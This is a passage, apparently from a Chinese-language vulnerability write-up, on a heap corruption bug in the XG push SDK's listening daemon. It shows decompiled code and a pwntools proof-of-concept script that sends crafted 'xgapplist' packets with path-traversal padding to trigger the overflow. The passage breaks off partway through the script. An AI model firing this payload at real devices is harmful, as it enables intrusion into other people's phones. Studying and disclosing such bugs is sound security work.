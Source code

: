       `}`
    `}`
    v18 = (void *)dword_40060028[i];
    if ( v18 )
      goto j_j__ZdaPv;
  `}`
…</code></pre>
</li>
注意下面这段代码，



```
if ( v18 )
 
          `{`
j_j__ZdaPv:
            operator delete[](v18);  
`}`
```

v18为下一个未分配区域的packagename，XG SDK认为如果不为空，则表明已在堆上分配，因此需要delete。然而测试表明，当添加xgappinfo超过512，为518、519等多个时（注意：并非超过1个），可以触发堆内存破坏。



```
POC:
 from pwn import *
import sys
def open_connection():
    xg_daemon_server = “192.168.8.158”
    xg_listen_port = 55362
    conn = remote(xg_daemon_server, xg_listen_port)
    return conn
def send_debug():
    conn = open_connection()
    packet_debug = “debug:1n”
    conn.send(packet_debug)
    print “S:”+packet_debug
    conn.close()
    exit(0)
def send_heap_overflow(n):
    conn = open_connection()
    packet_bound_overflow = “xgapplist:../../../”
    for i in range(n):
        packet_bound_overflow +=”/”
    packet_bound_overflow +=”sdcard/, 2100178385n”
    print “S: “+packet_bound_overflow
    print “%d bytes” % len(packet_bound_overflow)
    conn.send(packet_bound_overflow)
    conn.close()
def send_normal_packet(packet):
    conn = open_connection()
    conn.send(packet)
    print “S: “+packet
    if (packet == “ver:n”):
        print “R: “+ conn.recv()
    conn.close()
    exit(0)
def main():
    if (len(sys.argv) != 2):
        print “””
           %s &lt;packet_type&gt;
           1: send debug packet
           3: send heap overflow packet
           4: send normal ver: packet
```